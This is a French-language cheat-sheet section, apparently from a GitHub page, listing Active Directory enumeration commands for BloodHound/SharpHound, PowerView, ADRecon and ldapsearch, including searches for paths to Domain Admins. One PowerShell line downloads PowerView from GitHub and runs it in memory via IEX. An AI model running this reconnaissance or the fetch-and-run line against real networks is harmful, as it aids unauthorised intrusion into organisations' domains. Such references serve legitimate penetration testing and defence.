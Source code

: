 ## 🩸 Outils d'Énumération Avancée

### BloodHound
```powershell
# Collecteur BloodHound
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain DOMAIN.LOCAL -ZipFileName bloodhound.zip

# Ou avec l'exécutable
.\SharpHound.exe -c All -d DOMAIN.LOCAL
```

### PowerView (PowerSploit)
```powershell
# Import PowerView
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Énumération complète
Get-NetDomain
Get-NetUser
Get-NetGroup
Get-NetComputer
Get-NetSession
Get-NetLoggedon
Get-NetShare

# Recherche de chemins vers Domain Admins
Find-DomainUserLocation
Find-DomainProcess
Find-InterestingDomainAcl
```

### ADRecon
```powershell
# Énumération complète avec ADRecon
.\ADRecon.ps1 -DomainController DC01.domain.local -Credential domain\user
```

### ldapsearch (Linux)
```bash
# Énumération LDAP depuis Linux
ldapsearch -x -H ldap://DC_IP -D "domain\user" -W -b "dc=domain,dc=local"

# Tous les utilisateurs
ldapsearch -x -H ldap://DC_IP -D "domain\user" -W -b "dc=domain,dc=local" "(objectClass=user)"

# Tous les ordinateurs
ldapsearch -x -H ldap://DC_IP -D "domain\user" -W -b "dc=domain,dc=local" "(objectClass=computer)"
```
